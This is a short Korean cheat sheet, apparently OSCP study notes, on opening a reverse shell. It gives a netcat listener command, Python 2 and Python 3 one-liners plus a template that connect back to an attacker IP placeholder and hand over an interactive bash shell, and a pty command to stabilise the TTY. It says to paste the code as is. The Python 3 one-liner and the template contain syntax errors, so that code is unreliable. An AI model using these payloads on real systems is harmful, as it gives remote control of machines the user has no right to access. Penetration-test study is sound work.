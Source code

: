 ## 실전 리버스 쉘 전송 방법 (OSCP 스타일)

1. **공격자 리스너 대기**

```bash
nc -lvnp 4444
l: listen
v: verbose mode
n: numeric-only IP addresses
p: port number

```

- 공격자(내 컴퓨터)에서 먼저 리스너를 열어둔다.

2. **타겟에 파이썬 리버스 쉘 전송**

- 타겟이 명령어를 바로 실행하지 않고 파이썬 코드를 기대하는 경우, 아래처럼 입력한다.
- 파이썬2 환경:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("내IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])
```

- 파이썬3 환경:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("내IP",4444));import sys;for fd in (0,1,2):os.dup2(s.fileno(),fd);subprocess.call(["/bin/bash","-i"])
```

- "내IP"는 공격자 리스너가 열려있는 실제 IP로 바꿔서 입력.

3. **커스텀 템플릿 활용**

- 환경에 따라 아래 코드에서 IP와 포트만 바꿔서 입력하면 됨.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("내IP",4444))
for fd in (0,1,2):
os.dup2(s.fileno(),fd)
subprocess.call(["/bin/bash","-i"])
```

4. **연결 후 TTY 안정화**

- 쉘이 연결되면 바로 아래 명령어 입력:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

**팁:**

- 타겟이 파이썬 코드를 입력받는 환경이면 위 코드 그대로 복붙해서 사용.
- 연결이 안 되면 포트, 방화벽, 네트워크 경로부터 점검.
- OSCP에서는 직접 입력/반응 확인하며 상황에 맞게 커스텀하는 게 핵심.

**실전 예시 흐름:**

1. 내 컴퓨터에서 `nc -lvnp 4444`
2. 타겟에 파이썬 리버스 쉘 코드 입력
3. 연결되면 TTY 안정화
